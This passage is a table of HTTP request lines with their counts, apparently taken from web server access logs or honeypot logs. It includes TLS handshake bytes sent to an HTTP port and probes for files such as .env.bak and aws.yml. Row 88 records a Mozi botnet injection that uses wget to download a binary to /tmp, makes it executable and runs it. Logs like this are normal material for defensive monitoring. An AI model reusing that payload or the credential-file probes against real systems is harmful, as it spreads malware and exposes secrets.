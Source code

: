 |  85 |                     1 | GET /sitemap.xml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                   |
|  86 |                     1 | GET /robots.txt HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                    |
|  87 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03 \xD8\x0C;\x0F\x83sk\xDC                                                                                                                                                                                                                                                                                                                                                              |
|  88 |                     1 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                                                       |
|  89 |                     1 | \x16\x03\x01\x00M\x01\x00\x00I\x03\x03\x89a\xC7f\xB9\x1F\xEF\xEA\x0E\xF4M\xB7bc\x8Ez\xA2\x87\xF20\x92\x07MK\xAC\xF3*\xD5 \xE2\xFBE V&\x17\xE2\xDC\x1Ax\x15s\x91\x5C\x13_\xED                                                                                                                                                                                                                                                |
|  90 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xCC)\xF8\xCAx];\xCA\x80\xA7\xEFWg0\xB9\xA9\x03\xF2\x5C\xD4\xBBH\xE7x\x18\xD5\x99M\x0C{\xB0\xFC \xBE\xD1\xD9\xA7\xFF\xB4\x1E}L\xCE\xC5\xBBD_^\x93\xEB\xEF\xBF^\x9F\xA2\xBFF7w\xD7\xAF\x83~\xC5\xE1\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                 |
|  91 |                     1 | \x16\x03\x01\x05\xA8\x01\x00\x05\xA4\x03\x03\xC3BC\x94a5Q<\xEA|\xA1\x12\x9D\xC4.\xAA\x8C\x06                                                                                                                                                                                                                                                                                                                                |
|  92 |                     1 | \x16\x03\x01\x00\xCA\x01\x00\x00\xC6\x03\x03\x8E\xA3E\x9C\x80Y\x1D\xCA\x8D\xE9\x22l\xB8\xA1\xF0\xFEQ\x5C\xC7J\xCF\xE5\x01\xFC\xE7\xEC\xEDd\x14\x09\x12\x85\x00\x00h\xCC\x14\xCC\x13\xC0/\xC0+\xC00\xC0,\xC0\x11\xC0\x07\xC0'\xC0#\xC0\x13\xC0\x09\xC0(\xC0$\xC0\x14\xC0                                                                                                                                                     |
|  93 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x22\x06n_\x9C\xB46x\xF3\x02\xD1\xEA\x11\xB9WA\xAB\x13I\xC0\xAB\x1D[\x03\xAE\x08\xF6\xFFl`\x97v\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                     |
|  94 |                     1 | GET /.env.bak HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                      |
|  95 |                     1 | GET /aws.yml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                       |
|  96 |                     1 | GET /version HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                       |
|  97 |                     1 | \x16\x03\x02\x01o\x01\x00\x01k\x03\x02RH\xC5\x1A#\xF7:N\xDF\xE2\xB4\x82/\xFF\x09T\x9F\xA7\xC4y\xB0h\xC6\x13\x8C\xA4\x1C=\x22\xE1\x1A\x98 \x84\xB4,\x85\xAFn\xE3Y\xBBbhl\xFF(=':\xA9\x82\xD9o\xC8\xA2\xD7\x93\x98\xB4\xEF\x80\xE5\xB9\x90\x00(\xC0                                                                                                                                                                           |